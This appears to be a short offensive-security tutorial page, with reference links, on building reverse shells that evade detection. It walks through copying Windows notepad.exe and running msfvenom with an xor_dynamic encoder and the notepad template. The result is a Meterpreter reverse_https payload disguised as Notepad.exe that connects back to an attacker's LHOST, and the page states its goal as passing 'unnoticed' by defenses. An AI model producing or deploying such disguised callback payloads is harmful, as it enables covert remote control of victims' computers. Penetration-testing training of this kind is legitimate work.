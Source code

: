 # __Strengthens your shell__
- __https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/__
- __https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/__
- __https://explainshell.com/__
- __https://tryhackme.com/room/introtoshells__
- __https://www.offensive-security.com/metasploit-unleashed/msfvenom/__
- __https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates__
- __https://www.blackhillsinfosec.com/advanced-msfvenom-payload-generation/__

> In this module, we will see how to launch several types of shell, the objective is that you learn that there is not only a shell with netcat, there are also several types, more `"secure"` and that pass more `"unnoticed"` in the network.

## __Template / Reverse Shell__

> Well, let's start by seeing how to create a simple shell with a `encoder` and a `template` with `msfvenom`.

#### `Template flag`

```
-x, --template  /  Specify a custom executable file to use as a template
```

> The first thing to do is to think about what template we can use to go a little more unnoticed.

#### `Why A Template ?`

> Some time that an `exe` payload created with `msfvenom` can leverage an alternate template EXE file and be `encrypted` to better `evade` defenses.

> For this demonstration we will use the notepad template or `notepad.exe`.

#### `Copy`

```powershell
cd C:\Windows\system32\
```

```powershell
copy notepad.exe C:\Path\To\notepad.exe
```

> We transfer it to our `attacking` machine and proceed to create our `executable`.

#### `msfvenom`

```
msfvenom --list encoders
```

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=443 -e x64/xor_dynamic -x /path/to/notepad.exe -f exe -o /path/to/Notepad.exe
```

---